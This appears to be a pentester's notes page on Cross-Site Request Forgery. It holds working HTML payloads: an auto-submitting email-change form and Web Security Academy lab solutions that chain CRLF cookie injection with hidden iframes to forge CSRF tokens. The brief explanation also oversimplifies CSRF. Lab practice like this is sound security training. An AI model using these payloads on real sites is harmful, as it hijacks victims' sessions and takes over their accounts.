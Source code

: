 # Cross-Site Request Forgery

Cross-Site Request Forgery (CSRF) occurs when a web application allows an attacker to manipulate a victim's browser to perform actions on the victim's behalf without their consent.

During testing, you may wish to prove a CSRF vulnerability exists before further attacking. One way to do this is through the [CSRF PoC Generator](https://security.love/CSRF-PoC-Genorator/), where you can generate proof-of-concept code to test for CSRF vulnerabilities.

## Understanding CSRF

CSRF attacks are possible if the website enables attackers to set cookies in a victim's browser, leading to unauthorized actions being performed.

### Practice Lab

For practical experience and further insights into CSRF vulnerabilities, you can access the [Practice Lab](https://portswigger.net/web-security/csrf).

## Basic CSRF HTML from WSA Labs

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### WSA Lab Exploits

Double submit CSRF vuln -- where token is duplicated in cookie and the search function has no CSRF protection:

```html
<img src="https://ac601faf1e15b2b6c001282f00970098.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();"/>
```

#### Lab 5
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://ac151f291fb50bc28036e5bb00f6000b.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="csrf-iframe">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="SXsROOTp3jzq6M5UzIL2KkJIqGpffIQb">
        </form>

        <img style="display:none;" src="https://ac151f291fb50bc28036e5bb00f6000b.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=ho7GGxMe4EZSrQ8xZ0sBDq2yW0ey9bKH" onerror="document.forms[0].submit()">
    </body>
</html>
```

#### Lab 6
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://ac601faf1e15b2b6c001282f00970098.web-security-academy.net/my-account/change-email" method="post" target="csrf-iframe">
            <input type="hidden" name="email" value="testboyifyoudonot@test.ca">
            <input type="hidden" name="csrf" value="hacked">
        </form>

        <img style="display:none;" src="https://ac601faf1e15b2b6c001282f00970098.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrf=hacked" onerror="document.forms[0].submit()">
    </body>
</html>
```